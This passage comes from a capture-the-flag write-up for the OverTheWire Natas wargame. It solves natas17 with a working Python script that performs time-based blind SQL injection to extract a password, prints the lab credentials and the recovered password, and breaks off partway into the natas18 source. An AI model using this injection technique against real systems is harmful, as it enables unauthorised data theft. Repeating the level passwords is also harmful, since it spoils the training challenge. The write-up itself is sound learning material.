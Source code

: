 ```php+HTML
```

This is similar to natas15 but outputs nothing even if the user is present. So instead using boolean like in natas15 we can use time based SQL injection to get the password.

```python
import requests

leng1='natas18" and if((length(password)={0}),sleep(4),null); --+'
pass1='natas18" and if((ord(substr(password ,{0},1))={1}),sleep(5),null); --+'

url = "http://natas17.natas.labs.overthewire.org/index.php?username="
session = requests.Session()
success = requests.get(url+'natas18" and sleep(4); --+',auth=requests.auth.HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
print("Time",success.elapsed.total_seconds())
leng=0
for i in range(0,100):
    load = leng1.format(i)
    response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
    time = response.elapsed.total_seconds()
    if (time > 4):
        leng = i
        print("Length :",leng)
        break
password=""
for i in range(1,leng+1):
    for j in range(0,128):
        load = pass1.format(i,j)
        response = requests.get(url+load,auth=requests.auth.HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
        time = response.elapsed.total_seconds()
        if (time > 5):
            password += chr(j)
            print("Password :",password)
            break;
print("Password :",password)

```

This gave the password

password : **xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP**

### <a id="18">natas18</a>

Source code : 

```php+HTML
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "<censored>" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
<?

```